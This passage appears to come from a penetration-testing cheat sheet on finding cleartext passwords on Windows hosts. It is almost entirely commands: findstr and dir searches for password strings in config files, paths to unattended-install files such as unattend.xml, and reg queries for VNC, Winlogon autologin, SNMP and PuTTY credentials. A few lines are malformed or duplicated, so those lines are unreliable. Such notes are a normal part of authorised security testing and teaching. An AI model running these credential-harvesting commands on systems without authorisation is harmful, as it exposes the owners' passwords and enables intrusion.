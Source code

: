 ## Cleartext Passwords

### Search for them

```
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini

#Find all those strings in config files.
dir /s *pass* == *cred* == *vnc* == *.config*

# Find all passwords in all files.
findstr /spin "password" *.*
findstr /spin "password" *.*
```

### In Files

These are common files to find them in. They might be base64-encoded. So look out for that.

```
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\unattend.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml

dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b 
dir c:\ /s /b | findstr /si *vnc.ini
```

### In Registry

```
# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# SNMP Paramters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```
